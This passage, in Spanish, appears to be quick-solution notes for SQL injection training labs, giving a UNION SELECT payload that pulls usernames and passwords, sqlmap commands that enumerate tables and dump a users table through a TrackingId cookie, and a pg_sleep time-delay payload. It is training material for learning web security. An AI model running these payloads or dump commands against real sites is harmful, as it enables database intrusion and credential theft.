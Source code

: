 ``'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF-- 

8. Busque la contraseña del usuario "administrador" y úsela para iniciar sesión.

## ## Blind SQL injection, con respuestas condicionales

#### Solución Rápida:


Detectar tablas 

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --tables 

Volcar el contenido de la tabla 'users' (configurar el SGBD para acelerar la ejecución) 

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dbms=postgresql --dump 

## Blind SQL injection con errores condicionales

#### Solución Rápida:

Detectar ciegamente todas las tablas en la base de datos SYSTEM 

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump

Volcar el contenido de la tabla users

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump

## Blind SQL injection con dealy

1. Visite la página principal de la tienda y use Burp Suite para interceptar y modificar la solicitud que contiene la cookie TrackingId. 

2. Modifique la cookie TrackingId a:

``TrackingId=x'||pg_sleep(10)-- 

3. Envíe la solicitud y observe que la aplicación tarda 10 segundos en responder.

## Blind SQL injection con delays y devolución de información

Enumerar tablas 

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump 

Volcar el contenido de la tabla de usuarios 

``sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump 

## Blind SQL injection with out-of-band interaction

1. Visite la página principal de la tienda y use Burp Suite para interceptar y modificar la solicitud que contiene la cookie "TrackingId". 
